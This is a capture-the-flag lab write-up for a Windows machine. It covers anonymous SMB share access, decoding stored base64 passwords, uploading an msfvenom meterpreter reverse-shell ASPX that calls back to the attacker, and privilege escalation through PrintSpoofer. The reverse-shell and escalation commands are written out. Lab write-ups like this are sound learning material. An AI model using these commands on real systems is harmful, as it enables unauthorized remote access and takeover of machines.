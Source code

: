 ```yaml
---
sticker: emoji//1f440
---
```

# ENUMERATION
---

## OPEN PORTS
---


| PORT  | SERVICE               |
| :---- | :-------------------- |
| 80    | `http`                |
| 135   | `msrpc`               |
| 139   | `netbios-ssn?`        |
| 445   | `tcp (SMB)`           |
| 3389  | `ms-wbt-server (RDP)` |
| 49663 | `http`                |
| 49667 | `msrpc`               |
| 49669 | `msrpc`               |
|       |                       |
A lot of ports are open, let's proceed to check the website located at port `80`


![](CYBERSECURITY/IMAGES/Pasted%20image%2020241122171440.png)

Nothing useful is in here, let's skip the fuzzing part as it doesn't contain anything too.

As shown in the open ports, we have RDP on `3389` and also SMB on `445`, let's try to enumerate SMB to check if there's anything useful.





# RECONNAISSANCE
---


## SMB Enumeration

Let's run the following command to list the shares in `SMB`:

`smbclient -l IP`

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241122173253.png)

We find a share `nt4wrksv`, let's research to check if there's a way to access to it:

```ad-hint

#### How to access?
----

Command used

`smbclient \\\\<Victim Ip>\\nt4wrksv`

If we use that, we are able to connect even without the password:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241122173850.png)

```

We are in and found a `passwords.txt` file, let's download it and take a look at it:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241122173939.png)

Seems like two passwords, both are `base64` encoded, let's decode them:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241122174102.png)

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241122174229.png)

We got the following credentials:

```ad-note

`Bob` : `!P@$$W0rD!123`
`Bill` : `Juw4nnaM4n420696969!$$$`


```

Let's scan the machine further to check if there's anything vulnerable, for this, I will use the following Nmap scan:

```ad-hint

##### Nmap
----

If we use: `nmap -Pn -script vuln IP`, we get the following:


![](CYBERSECURITY/IMAGES/Pasted%20image%2020241122180438.png)
The `3389` port is vulnerable to RCE. let's get a shell.

```
# EXPLOITATION
---

Nice, for the exploitation part we need to do the following:

```ad-summary
### Step to step to get the shell
---


1. Use msfvenom and create the reverse shell: `msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=OURIP lport=ourport -f aspx -o reverse_shell.aspx`
2. Upload the reverse shell file to the network share:
![](CYBERSECURITY/IMAGES/Pasted%20image%2020241122182149.png)
3. Use curl to retrieve the reverse shell: `curl http://IP:49663/nt4wrksv/reverse_shell.aspx`
4. Let's use metasploit's multi handler to create a listener:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241122182439.png)

Let's run the multi handler and use curl at the same time to get our shell:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241122182628.png)



```



Nice, let's do privilege escalation



# PRIVILEGE ESCALATION
---



For privilege escalation, we need to investigate the machine, let's take a look at the privileges using `getprivs`:


![](CYBERSECURITY/IMAGES/Pasted%20image%2020241122182831.png)

Most interesting one is the `SeImpersonatePrivilege`, we can impersonate, for this privilege escalation, we'll be impersonating `PrintSpoofer`:

```ad-note

Script: [GITHUB LINK](https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe)
```

Once we've put the script inside of our machine using smb, we can do the following:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241122183155.png)

Switch to shell and go to this route: 

`c:/inetpub/wwwroot/nt4wrksv`

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241122183251.png)

We can now see our `PrintSpoofer64.exe` program, we need to do the following in order to get a reverse shell:

`PrintSpoofer64.exe -i -c powershell.exe`

We are taking advantage of the `SeImpersonatePrivilege`, let's get our root shell:


![](CYBERSECURITY/IMAGES/Pasted%20image%2020241122183438.png)

And just like that, CTF is done.

